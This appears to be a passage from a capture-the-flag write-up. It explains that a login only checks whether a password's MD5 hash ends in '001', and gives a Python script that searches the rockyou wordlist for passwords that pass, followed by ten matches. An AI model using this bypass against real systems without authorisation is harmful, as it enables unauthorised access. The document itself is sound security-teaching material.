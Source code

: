 The implementation for the password is poorly done, it only checks if the md5 hash ends up in `001`, we can use a python script to automate the process of finding valid passwords, let's use rockyou:

```python
#!/usr/bin/env python3
import hashlib
import sys

WORDLIST_PATH = '/usr/share/wordlists/rockyou.txt'
TARGET_SUFFIX = '001'
MAX_RESULTS = 10

def md5_endswith(word: str, suffix: str) -> bool:
    return hashlib.md5(word.encode('utf-8')).hexdigest().endswith(suffix)

def search_rockyou():
    found = []
    try:
        with open(WORDLIST_PATH, 'r', encoding='utf-8', errors='ignore') as f:
            for line in f:
                for word in line.split():
                    if md5_endswith(word, TARGET_SUFFIX):
                        found.append(word)
                        if len(found) >= MAX_RESULTS:
                            return found
        return found
    except FileNotFoundError:
        print(f"Wordlist not found at {WORDLIST_PATH}", file=sys.stderr)
        sys.exit(1)

if __name__ == '__main__':
    results = search_rockyou()
    if results:
        print("[+] You can use these passwords:")
        for pwd in results:
            print(pwd)
    else:
        print("No matches found.")

```


We get:

```
python3 bruteforce.py
[+] You can use these passwords:
violet
gymnastics
chingy
sugarplum
raiden
122187
stokes
080884
021105
BLONDIE
```
